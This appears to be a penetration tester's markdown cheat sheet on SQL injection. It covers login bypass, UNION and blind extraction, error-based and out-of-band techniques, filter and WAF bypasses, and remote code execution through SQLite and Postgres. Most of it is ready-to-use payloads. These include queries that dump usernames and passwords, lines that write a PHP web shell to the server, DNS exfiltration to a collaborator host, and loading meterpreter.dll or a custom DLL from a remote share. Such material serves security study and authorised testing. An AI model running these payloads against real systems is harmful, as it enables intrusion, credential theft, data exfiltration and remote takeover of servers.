

>[!warning]
>SQL Injection is a common web application vulnerability that is caused by **unsanitized user input being inserted into queries** and subsequently passed to a database for execution.
>
>Pre-requisite: [SQL 101](../Dev,%20scripting%20&%20OS/SQL%20101.md)

---

## Find and exploit SQL Injections

Possible inputs:

- GET parameters
- POST parameters
- HTTP Headers (like User-agent)
- Cookies
- ...

Insert special query characters like `' " # \ -` and observe if some SQL errors are triggered or the application behave differently.

>[!tip] Test SQL payload online
>Dynamic SQL testing online: http://sqlfiddle.com/ [^demo]

[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec


### SQL Injection exploitation techniques

- Leaking data (on screen or using time-based attacks)
- Authentication bypass against faulty logins
- Using SQL Injection as gadget to store/update data [^sql-injection-oracle]
	- Inject or update users or credentials
	- Store payload and trigger some functionality of the application to cause further impact
- Second order SQL Injections

[^sql-injection-oracle]: [Summoning Team - Breaking Down Barriers Exploiting Pre-Auth SQL Injection in WhatsUp Gold CVE-2024-6670](../../Readwise/Articles/Summoning%20Team%20-%20Breaking%20Down%20Barriers%20Exploiting%20Pre-Auth%20SQL%20Injection%20in%20WhatsUp%20Gold%20CVE-2024-6670.md)

---

## Authentication Bypass

Vulnerable query:

```sql
select * from users where name = 'tom' and password = 'jones';
```

Exploited query:

```sql
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```

Sometimes clause `LIMIT 1` is necessary if the login function require only one result.

>[!hint] Go safe!
>Use the payload below instead of `' OR '1'='1`:
>`' OR IF((NOW()=SYSDATE()), SLEEP(1),1)='0` [^safe-sqli]

[^safe-sqli]: [Or-Based SQL Injection Without the Dangers! Safe Alternatives to OR 1=1!](../../Readwise/Articles/Tib3rius%20-%20Or-Based%20SQL%20Injection%20Without%20the%20Dangers!%20Safe%20Alternatives%20to%20OR%201=1!.md)

---

## UNION base SQLi

### Column number enumeration

In traditional SQLi vulns we have to figure out how many field the query is managing and where they are placed within the code. In order to find how many field the query extracts we can abuse the `ORDER BY` function in conjunction with a Boolean base SQLi.

```bash
http://10.11.0.22/debug.php?id=1 order by 1		# No error
http://10.11.0.22/debug.php?id=1 order by 2		# No error
http://10.11.0.22/debug.php?id=1 order by 3		# No error
http://10.11.0.22/debug.php?id=1 order by 4		# ERROR --> query manage 3 field
```

By increasing the value of 'order by', we can enumerate the number of columns in the table.

You can also use NULL series:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### UNION extraction

Once we know the exact number of columns, we need to understand which columns are exposed into the web page.

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, 3
```



Understood where the fields are, we can start extracting information from the DB

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, @@version
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, user()
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, table_name from information_schema.tables
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, column_name from information_schema.columns WHERE table_name='users'
```

### Dumping data, reading and creating files

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, username, password FROM users
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

---

## Blind SQLi

### Boolean base SQLi

If we have an **item** on the screen **that appears or disappears based on the results of the query or application behaviour** that can be **traced back to TRUE vs FALSE**, we can query the entire DB and get TRUE / FALSE answers. For example, we could find out if table X exists, if the first letter of the username starts with 'a', etc.

```sql
SELECT substring(user(),1,1) = 'r';
```

If the db user is 'root' the result of the query is TRUE. In this case the image will be present and I would be aware of the first letter of the user. I would proceeds with the second one, and so on.

Examples:

```sql
... OR (SELECT SUBSTRING(username,1,1) FROM users WHERE username='administrator')='a' --  # confirms the query is working
... OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='p' --  # confirms the query is working
```

### Time-based SQLi

It is identical to a SQLi attack but differs in that **the page output does not show visual errors if the vulnerability is present**.
One of the most common methods of carrying out the attack is the `SLEEP()` function which allows the query to be paused for X seconds. This will allow us to understand, given the loading time of the page, whether or not it is vulnerable to SQLi attacks.
Payload: `' AND SLEEP(5)#`

```sql
# Oracle 	
dbms_pipe.receive_message(('a'),10)

# Microsoft
WAITFOR DELAY '0:0:10'
## Example
QUERY... ; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

# PostgreSQL
SELECT pg_sleep(10)

# MySQL
SELECT sleep(10)
```

---

## Error base SQLi

You can test a single boolean condition and trigger a database error if the condition is true. 

```sql
# MySQL
select 1, extractvalue(0x0a,concat(0x0a,(<SQL Query HERE>)))
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
'xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'-- -

# Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
## Example
TrackingId='nh7zNp4i65rBGFKX' AND (SELECT CASE WHEN ((SELECT SUBSTR(password,20,1) FROM users WHERE username='administrator')='§a§') THEN NULL ELSE to_char(1/0) END FROM dual)=1-- -;

# MSSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END 
cookie1=xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
cookie1=xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

# PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
1 = SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
```

Some time servers also disclose verbose errors about the query, allowing to retrieve internal data:
```sql
CAST((SELECT example_column FROM example_table) AS int) -- # ERROR: invalid input syntax for type integer: "Example data"

# Example
TrackingId='ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)-- # Error: `AND` condition must be a boolean expression.
TrackingId='ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)-- # OK
TrackingId='' AND 1=CAST((SELECT username FROM users) AS int)-- # Error: more then one row
TrackingId='' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- # ERROR: invalid input syntax for type integer: "administrator"
TrackingId='' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- # ERROR: invalid input syntax for type integer: "txp8n9ngydm953sli8k2"
```

---

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```sql
# Oracle 	
Does not support batched queries.

# Microsoft
QUERY-1-HERE; QUERY-2-HERE

# PostgreSQL
QUERY-1-HERE; QUERY-2-HERE

#MySQL
QUERY-1-HERE; QUERY-2-HERE
```

### OAST techniques for blind SQL injections

Sometimes queries are executed asynchronously, so the application continues processing user requests and queries using different threads. In this case, all the other techniques previously shown are not effective because there is no connection between the query and the server response. In order to detect these vulnerabilities, we can combine stacked queries and OAST techniques and tools [^1], forcing the backend connects to our DNS server and thus exfiltrate data in this way.

```sql
# Oracle
## The following technique leverages an XXE vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
  
## The following technique works on fully patched Oracle installations, but requires elevated privileges:  
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

# MSSQL
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

# PostreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

# MySQL
## The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

**Exfiltration:**
```sql
# Oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

# MSSQL
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')

# PostgreSQL
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

# MySQL
## The following technique works on Windows only:  
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

---

## Second-order SQL injection

In second-order SQL injection (also known as **stored SQL injection**), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

Second-order SQL injection often arises in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.

>[!example]- Second-order SQL Injection example
><iframe width="560" height="315" src="https://www.youtube.com/embed/YmRDV0JR4qg?si=BgIvP96IOQyJ3Xww&amp;start=378" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

You can automate the discovery and exploitation of 2nd order SQLi with [sqlmap](../Tools/sqlmap.md#Testing%202nd%20order%20SQL%20Injection)

---

## NoSQL Injection

[NoSQL Injection](NoSQL%20Injection.md)

---

## Bypasses and advanced techniques

### Avoid quotes and double quotes

**MySQL**

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/web/baby-sql]
└─$ echo -n "db_m412" | xxd
00000000: 6462 5f6d 3431 32                        db_m412
```

```sql
UNION select 1, extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_m412' )))-- -#

# becomes
UNION select 1, extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=0x64625f6d343132 )))-- -#
```

**PostgreSQL**

```sql
# CHR
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
?column?
----------
AWAE
(1 row)

# Lexial Structure $$
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
COPY 1
Query returned successfully in 201 msec.
```

SQLite :

```sql
select CHAR(41,42,43,44,45) FROM XXX WHERE Y=Y;
```

See also [Evading Restrictions](Evading%20Restrictions.md)

### Avoid commas

No Comma - bypass using OFFSET, FROM and JOIN: [^hacktricks-article]  [^ippsec-video]

[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec

```SQL
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```


### Abusing JSON-Based SQL to Bypass WAF
Original article: [{JS-ON: Security-OFF}: Abusing JSON-Based SQL to Bypass WAF](https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf); Team82 Research

MySQL:

```sql
SELECT JSON_EXTRACT('{"id": 14, "name": "Aztalan"}', '$.name') = 'Aztalan'
```

Postgres:

```sql
'{"b":2}'::jsonb <@ '{"a":1, "b":2}'::jsonb
```

SQLite:

```sql
'{"a":2,"c":[4,5,{"f":7}]}' -> '$.c[2].f' = 7
```

[sqlmap](../Tools/sqlmap.md) evasion filter: `sqlmap --tamper json_waf_bypass_postgres.py`

---

## RCE using SQLite command

```sql
# Attach Database
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--

# Load_extension (Note: By default this component is disabled)
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

## RCE loading extensions (Postgres UDF)

>[!warning]
>The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server. If the target library doesn’t have this magic block (as is the case with all standard system libraries), then the loading process will fail.

```sql
# Load an external extension
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;

CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR: incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.
********** Error **********

# compile a custom dynamic library 
## Local
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);

## Remote
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.2.209\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```

## Tools for SQLi

- [sqlmap](../Tools/sqlmap.md)
- [nosqlmap](https://github.com/codingo/NoSQLMap)
- [BlindBrute](https://github.com/c3llkn1ght/BlindBrute) [^blindbrute]

[^blindbrute]: [Erik - Last Week in Security (LWiS) - 2024-11-12](../../Readwise/Articles/Erik%20-%20Last%20Week%20in%20Security%20(LWiS)%20-%202024-11-12.md#^bd17a3)
## External Resources

- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
- [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayloadsAllTheThings - MSSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution)
- [From MSSQL to RCE](https://www.tarlogic.com/en/blog/red-team-tales-0x01/)
- [PayloadsAllTheThings/SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
- [Advanced SQL Injection Techniques by nav1n0x](https://nav1n0x.gitbook.io/advanced-sql-injection-techniques?__readwiseLocation=)
- [[SQL Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SQL%20Injection.md) in OEM (BT-WAF Bypass)](../../Readwise/Articles/Spaceraccoon's%20Blog%20-%20Pwning%20Millions%20of%20Smart%20Weighing%20Machines%20With%20API%20and%20Hardware%20Hacking.md#[SQL%20Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SQL%20Injection.md)%20in%20OEM%20(BT-WAF%20Bypass))

[^1]: [Out-of-Band Exfiltration Tools](../../Readwise/Articles/Piyush%20Kumawat%20(securitycipher)%20-%20Out-of-Band%20Exfiltration%20Tools.md)
